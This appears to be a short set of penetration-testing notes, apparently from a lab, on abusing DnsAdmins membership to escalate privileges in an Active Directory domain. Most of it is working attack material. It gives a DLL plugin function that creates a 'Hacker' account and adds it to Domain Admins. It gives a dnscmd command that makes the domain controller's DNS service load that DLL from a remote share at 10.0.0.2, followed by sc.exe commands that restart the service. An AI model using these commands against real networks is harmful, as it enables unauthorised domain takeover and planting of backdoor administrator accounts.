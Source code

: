 For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:
```
 net user spotless /domain
```
![[image 16.png]]

Build the DLL
https://github.com/dim0x69/dns-exe-persistance/tree/master

Edit Win32Project1.cpp
![[Pasted image 20240917121727.png]]
Add your exploit
```
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
    system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
    system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

Use dnscmd to load dll
```
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
```
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
